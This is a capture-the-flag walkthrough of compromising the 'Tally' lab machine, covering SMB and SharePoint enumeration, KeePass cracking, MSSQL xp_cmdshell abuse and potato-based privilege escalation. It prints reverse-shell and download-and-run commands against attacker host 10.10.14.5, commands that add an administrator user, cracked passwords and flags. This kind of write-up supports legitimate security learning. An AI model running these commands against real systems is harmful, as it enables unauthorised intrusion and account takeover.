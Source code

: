 
**Skills Required**
● Intermediate/advanced knowledge of
Windows
● Basic understanding of C and compiler
flags
**Skills Learned**
● Enumerating Sharepoint
● Exploiting MSSQL
● Windows Defender/AV evasion
techniques
● Exploit modification

port 445(smb)
port 5985(winrm)
port 21 (ftp)
port 80 (http)

With port 445 (smb) open, I use crackmapexec to gather information about the victim machine
``` bash
❯ crackmapexec smb 10.10.10.59
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)

```

Now I'll attempt to list the shared resources via SMB
``` bash
❯ smbmap -H 10.10.10.59 -u 'null'
[!] Authentication error on 10.10.10.59

```

Access is denied, so I need a valid credentials to list shared resources

Port 80 is open, so I use whatweb to gather  information about the websiite
``` bash
❯ whatweb 10.10.10.59
http://10.10.10.59 [302 Found] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.59], Microsoft-IIS[10.0], Microsoft-Sharepoint[15.0.0.4420], RedirectLocation[http://10.10.10.59/default.aspx], Title[Document Moved], UncommonHeaders[x-sharepointhealthscore,sprequestguid,request-id,sprequestduration,spiislatency,microsoftsharepointteamservices,x-content-type-options,x-ms-invokeapp], X-Frame-Options[SAMEORIGIN], X-Powered-By[ASP.NET]

http://10.10.10.59/default.aspx [200 OK] ASP_NET[4.0.30319], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.59], MetaGenerator[Microsoft SharePoint], Microsoft-IIS[10.0], Microsoft-Sharepoint[15.0.0.4420], Script[text/javascript], Title[Home - Home][Title element contains newline(s)!], UncommonHeaders[x-sharepointhealthscore,sprequestguid,request-id,sprequestduration,spiislatency,microsoftsharepointteamservices,x-content-type-options,x-ms-invokeapp], X-Frame-Options[SAMEORIGIN], X-Powered-By[ASP.NET], X-UA-Compatible[IE=10]

```

I see some information related to sharepoint (_SharePoint_ is a web-based collaborative platform that integrates natively with Microsoft 365)

While exploring the website I discover the sharepoint site and attempt to find interesting routes by fuzzing. I use google for this and review sharepoint pentesting  reports to discover potential routes

``` bash
http://10.10.10.59/_layouts/15/viewlsts.aspx -> DOcuments

```

Within the website, I find an ftp-details file. After downloading it, I obtain credentials to connect via FTP
``` bash 
FTP details
ftp_user
hostname: tally

workgroup: htb.local

password: UTDRSCH53c"$6hys

Please create your own user folder upon logging in

```

After connecting to the ftp service, I access leaked information, Given the volume of data,  I use the curlftpfs tool to create a mount for easier access to all the FTP information

``` bash
curlftpfs 10.10.10.59 /mnt/ftp/ -o user=ftp_user:UTDRSCH53c"$6hys
tree -fas
cp /User/Tim/Files/tim.kdbx .
```

I obtain a .kdbx file, which is a Data file created by KePass Password Safe, and there is a way to crack it
I'll use the keepassxc tool to examine its contents, However it's protected ,so I will use john to crack it.
```
keepass2john tim.kdbx > hash
❯ john --wordlist=~/Documents/wordlist/rockyou.txt hash
Warning: detected hash type "KeePass", but the string is also recognized as "KeePass-opencl"
Use the "--format=KeePass-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**simplementeyo    (tim)**
1g 0:00:00:11 DONE (2023-09-22 12:17) 0.08665g/s 2140p/s 2140c/s 2140C/s teamomivida..rylee
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

With the help of john I obtain credentials for the user tim, so Now I can use keepassxc to see the information of the .kdbx file

I get more credentials, this time for a shared resources
``` bash
Finance:Acc0unting

```

Using these credentials, I revisit smbmap to list shared resources via SMB

``` bash
smbmap -H 10.10.10.59 -u 'Finance' -p 'Acc0unting'
[+] IP: 10.10.10.59:445	Name: unknown             	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ACCT                                              	READ ONLY	
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
```

There are some resources, but one (ACCT) have the privileged READ ONLY
I'll list the information of this resource

``` bash
smbmap -H 10.10.10.59 -u 'Finance' -p 'Acc0unting' -r ACCT
[+] IP: 10.10.10.59:445	Name: unknown             	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ACCT                                              	READ ONLY	
	.\ACCT\\*
	dr--r--r--                0 Thu Sep 21 01:27:54 2017	.
	dr--r--r--                0 Thu Sep 21 01:27:54 2017	..
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Customers
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Fees
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Invoices
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Jess
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Payroll
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Reports
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Tax
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	Transactions
	dr--r--r--                0 Thu Sep 21 01:27:49 2017	zz_Archived
	dr--r--r--                0 Thu Sep 21 01:27:54 2017	zz_Migration

```

there are a lot of directories, I opt for the same approach as before but this time I use the  "mount -t cifs" command
``` bash
mount -t cifs //10.10.10.59/ACCT /mnt/smb -o username=Finance,password=Acc0unting,rw
tree -fas
```

there are a backup directory, maybe some credentials are there.
``` bash
mount -t cifs //10.10.10.59/ACCT /mnt/smb -o username=Finance,password=Acc0unting,rw
tree -fas
```

Inside this directory I discover various binaries and. One binary, "tester.exe" àrticulary piques my interest.
I use the "strings" tool inspect its contents and I found more credentials, this time for a sql server
``` bash
/mnt/smbshred/zz_Migration/Binaries/New folder ╱ ✔ ❯ strings tester.exe | less                 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
```

With the port 1433 open, I can connect to the sql server using the impacket tool with these credentials

``` bash
mssqlclient.py WORKGROUP/sa:GWE3V65#6KFH93@4GWTG2G@10.10.10.59
#try xp_cmdshell "whoami" if is off you can try to configure it -> 
SQL> sp_configure "show advanced options", 1 -> reconfigure -> sp_configure "xp_cmdshell", 1 
# now I can execute commands and try to execute a reverse shell
xp_cmdshell "whoami"
```

Now that I can execute commands on the victim machine, I'm going to use Invoce-PowerShellTCP.ps1 to stablish a reverse shell

``` bash
# on the victim machine
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.5/Invoke.ps1\")"

# On my machine
python -m http.server 80
rlwrap nc -nlvp 1234

```


Having gained access to the victim machine, it's time to escalate privileges

``` bash
whoami /priv

```

The user has the "SeImpersonatePrivilege" privilege, which can be exploited with the Juicy Potato tool
``` bash
#On my machine
sudo python -m http.server 80

# On victim machine
iwr -uri http://10.10.14.5/juicypotato.exe -OutFile juicy.exe
.\juicy.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c net user kvzlx **colombia**123 /add" -> create a user
.\juicy.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c net localgroup Administrators kvzlx /add" -> put the user in the administrator group
.\juicy.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -> put the user in the Remote management users to can connect with via evil-winrm


#I have problem with Juicy potato so I use SweetPotato.exe and a nc64.exe binary (netcat)
.\SweetPotato.exe -p nc64.exe -a "-e powershell 10.10.14.5 1234"

  
```

this completes the privilege escalation, and I now have full control over the machine.
User flag > e806ef7ecb81f2a281c36f8b06f4d770
root flag > 7cac06b6c854ced20c5036f6fe13ac0b

